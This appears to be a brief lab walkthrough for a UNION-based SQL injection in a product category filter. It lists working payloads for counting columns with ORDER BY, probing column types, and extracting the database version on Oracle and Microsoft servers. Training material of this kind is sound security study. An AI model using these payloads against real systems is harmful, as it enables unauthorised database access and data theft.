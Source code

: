  SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 

 Goal : Display db version string

First
Determine the number of columns using ORDER BY
' ORDER BY 1--
' ORDER BY 2--
-----
2nd :
Determine the data types of the columns
' UNION select 'a',NULL--
' UNION select NULL,'a'--

' UNION select 'a','a' from DUAL-- {Oracle db}
3rd:
Output Version of db
' UNION select banner, NULL from v$version-- {Oracle}


' UNION SELECT @@version, NULL# {Microsoft}